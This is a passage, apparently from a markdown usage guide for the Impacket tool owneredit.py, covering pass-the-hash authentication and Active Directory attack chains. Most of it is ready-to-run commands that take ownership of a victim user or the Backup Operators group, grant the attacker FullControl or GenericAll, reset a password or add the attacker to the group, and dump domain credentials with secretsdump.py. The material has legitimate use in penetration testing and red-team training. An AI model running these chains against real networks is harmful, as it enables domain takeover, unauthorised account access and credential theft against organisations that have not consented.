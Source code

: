# Using hash authentication
python3 owneredit.py -hashes :ntlmhash domain.com/user@target.domain.com
```

### Advanced Usage
```bash
# Advanced example 1
python3 owneredit.py [advanced_parameters]

# Advanced example 2
python3 owneredit.py [advanced_parameters_2]

# Debug mode
python3 owneredit.py DOMAIN/user:password@target -file "C:\\file.txt" -owner "DOMAIN\\newowner" -debug
```

## Attack Chain Integration

### Privilege Escalation via Object Ownership
```bash
# Step 1: Identify targets with GenericWrite or WriteOwner permissions
python3 dacledit.py domain.com/user:password -action read -target victim_user

# Step 2: Take ownership of the target object
python3 owneredit.py domain.com/user:password -action write -target victim_user -new-owner attacker

# Step 3: Modify DACL to grant full control
python3 dacledit.py domain.com/attacker:password -action write -target victim_user -principal attacker -rights FullControl

# Step 4: Reset password or modify group membership
net user victim_user NewPassword123 /domain
```

### Group Takeover Chain
```bash
# Step 1: Take ownership of privileged group
python3 owneredit.py domain.com/user:password -action write -target "Backup Operators" -new-owner attacker

# Step 2: Grant yourself permissions to modify group membership
python3 dacledit.py domain.com/attacker:password -action write -target "Backup Operators" -principal attacker -rights GenericAll

# Step 3: Add yourself to the group
net group "Backup Operators" attacker /add /domain

# Step 4: Use group privileges for further attacks
python3 secretsdump.py domain.com/attacker:password@dc.domain.com -use-vss
```
